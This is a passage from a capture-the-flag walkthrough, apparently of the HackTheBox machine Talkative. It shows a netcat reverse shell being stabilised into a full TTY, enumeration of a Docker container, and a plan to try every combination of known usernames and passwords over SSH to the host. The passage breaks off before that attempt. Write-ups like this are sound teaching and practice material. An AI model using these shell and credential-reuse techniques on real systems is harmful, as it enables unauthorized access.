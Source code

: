 ```

www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg 
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ 

```

## Shell as saul on Talkative

### Enumeration

#### Container

This host is also a Docker container. There’s a `.dockerenv` file at the system root. The hostname is ba67799048d7, and the IP is 172.17.0.10:

```

www-data@ba67799048d7:/$ ls -la /.dockerenv 
-rwxr-xr-x 1 root root 0 Aug 22 15:21 /.dockerenv
www-data@ba67799048d7:/$ hostname
ba67799048d7
www-data@ba67799048d7:/$ cat /proc/net/fib_trie
...[snip]...
     +-- 172.17.0.0/16 2 0 2
        +-- 172.17.0.0/28 2 0 2
           |-- 172.17.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.17.0.10
              /32 host LOCAL
...[snip]...

```

#### Homedirs

There are no folders in `/home`, and I can’t access `/root`. www-data’s home directory is `/var/www`, which has the files for talkative.htb.

### SSH

This container does have `ssh` client installed, so I’ll give it a try on the host, presumably 172.17.0.1. Given the mismatch of password to user names I already noticed, I’ll try all combinations of the names and the password, and the same set that worked for Bolt work here:
